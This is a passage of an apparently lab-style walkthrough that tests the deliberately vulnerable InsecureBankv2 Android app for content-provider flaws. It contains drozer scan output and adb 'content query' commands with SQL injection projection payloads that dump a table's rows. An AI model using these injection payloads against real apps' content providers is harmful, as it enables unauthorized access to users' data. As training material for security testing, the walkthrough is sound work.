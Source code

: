 We don't find any Directory Traversal vulnerability. Let's go for SQL Injection.

```bash
dz> run scanner.provider.injection  -a com.android.insecurebankv2
Attempting to run shell module
Scanning com.android.insecurebankv2...
# ...

Injection in Projection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers

Injection in Selection:
  content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
```

We can manually test the Injection inside adb shell.

```bash
$ content query --uri "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers" --projection "'"

Error while accessing provider:com.android.insecurebankv2.TrackUserContentProvider
android.database.sqlite.SQLiteException: unrecognized token: "' FROM names ORDER BY name" (code 1 SQLITE_ERROR): , while compiling: SELECT ' FROM names ORDER BY name
#...
```

This confirms that our SQL Injection is working!

We already know table name is `names` so we can make our query 
`SELECT * FROM names;--`

```bash
$ content query --uri "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers" --projection "* FROM names ;--"

Row: 0 id=1, name=jack
```

**NOTE**

Always run from adb shell and not use linux shell

```bash
# WRONG
adb shell content query ...

# RIGHT
adb shell
$ content query ...
```
